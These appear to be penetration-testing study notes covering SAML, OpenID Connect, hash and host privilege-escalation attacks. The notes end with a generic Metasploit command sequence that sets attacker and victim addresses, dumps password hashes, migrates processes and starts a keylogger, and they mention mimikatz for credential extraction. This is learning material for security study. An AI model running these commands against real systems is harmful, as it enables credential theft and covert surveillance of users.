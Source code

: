 ### SAML Attacks
- Open standard for exchanging authentication and authorization data between parties
- user browser>service provider>identity provider
- SAML token Manipulation attack
   - XML based and contain assertions that can be manipulated
   - If an attacker captures the token they can escalate to admin or modify the token
- SAML replay attack -Can happen if attacker captures token
- SAML injection attack -exploit vul in SAML processing

### OpenID connect Attacks
- Identity layer built on layer 2
- SSO (single sign on)
- ID toekn manipulation -attacker modifies the ID token to gain unauthorized access
- protect against this by always validating signature and integrity of token
- ID token replay attack using wireshark
- ID token injection attack
- Webfinger service -helps identify user
- OpenID connect dynamic Client registration

### Hash Attacks
- collision attacks -2 inputs produce the same hash value. One type is birthday attack.
- ```hashcat```
- hashes store passwords so they are not stored in plaintext
- can further prevent passwords by salting
- key stretching increases security - Apply hash function multiple times

## Section 19: Host Attacks (4.4)

### Priviledge Escalation
- mimikatz(post exploit tool for extracting plaintext passwords, hashdumps, and kerberos tickets)
- vertical escalation(higher privs)
- horizontal escalation(accessing peer-level accounts)
- Seatbelt (C# tool that performs security checks on a system)
- Powershell (ISE) graphical interface of powershell to use scripts
  - Can use powershell to run services and run software
### Conducting Priviledge Escalation
    msfconsole
    use exploit /path
    set payload
    show options
    set RHOST victimIP
    set LHOST AttackerIP
    show options
    exploit
    getpid
    ps 
    getsid
    hashdump #get password hashes. Can crack using Johnny/John the Ripper/Crackstation.net
    migrate 1248 
    getpid
    getsid
    keyscan_start #start keylogger
    keyscan_dump
